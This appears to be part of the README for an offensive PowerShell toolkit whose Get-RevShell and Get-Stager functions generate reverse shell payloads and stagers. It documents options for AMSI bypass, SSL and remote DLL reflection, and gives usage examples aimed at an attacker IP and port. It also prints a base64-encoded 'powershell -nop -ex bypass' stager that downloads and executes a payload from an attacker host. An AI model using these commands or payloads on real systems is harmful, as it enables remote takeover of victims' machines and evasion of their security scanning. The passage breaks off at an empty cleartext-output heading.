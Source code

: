 ```
#      -Headless              -->   Create reverse shell payload without '-nop -ex bypass -wi h' parameters
#      -Verbose               -->   Make reverse shell variables descriptive instead of randomly generated
#
#    PMA Server Compatibility (Static)
#      -WebClientHelpers      -->   Add WebClientHelpers ('download','upload','import') into the revshell, pointing to the revshell IP address
#      -RemoteReflection      -->   Remotely reflect 'SSC.dll' from the revshell IP address instead of using Add-Type in the payload
#
#    PMA Server Compatibility (Specified)
#      -RemoteReflectionURL   -->   Specific URL hosting 'SSC.dll' to reflect (e.g., 'http(s)://<ip_addr>/SSC.dll')
#      -WebClientHelpersURL   -->   Specific URL of 'pma_server.py' to point WebClientHelpers to (e.g., 'http(s)://<ip_addr>')
```

---
#### ``Get-Stager.ps1`` 

```
# Synopsis:
# Simple PowerShell stager generator to point to web hosted payloads or commands.
# 
# Parameters:
#   -PayloadURL  -->  URL pointing to the reverse shell payload
#   -Command     -->  PowerShell command to execute instead of a reverse shell stager
#   -Raw         -->  Return stager payload in cleartext rather than base64
#   -Headless    -->  Create stager payload without '-' parameters
#   -Help        -->  Return Get-Help information
```

---
#### Examples

```powershell
# View all parameters
Get-RevShell -Help
Get-Stager -Help

# Simple PowerShell Reverse Shell (base64)
Get-RevShell <attacker_ip> <listening_port>

# Simple PowerShell Reverse Shell (cleartext)
Get-RevShell <attacker_ip> <listening_port> -Raw

# PowerShell 2.0 Compatible Reverse Shell w/ Verbose Variables (cleartext)
Get-RevShell <attacker_ip> <listening_port> -Raw -Verbose -PowerShell2Support

# SSL Encrypted PowerShell Reverse Shell w/ AMSI Bypass (base64)
Get-RevShell <attacker_ip> <listening_port> -SSL -AmsiBypass

# Stager pointing to Robust PowerShell Reverse Shell
Get-RevShell <attacker_ip> <listening_port> -SSL -AmsiBypass -WebClientHelpers > ./uploads/revshell
Get-Stager -PayloadURL "http(s)://<attacker_ip>/revshell"

# Output (default):
powershell -nop -ex bypass -wi h -e aQBlAHgAIAAoACgATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwAHMAKABzACkAOgAvAC8APABhAHQAdABhAGMAawBlAHIAXwBpAHAAPgAvAHIAZQB2AHMAaABlAGwAbAAnACkAKQA=

# Output (cleartext):
```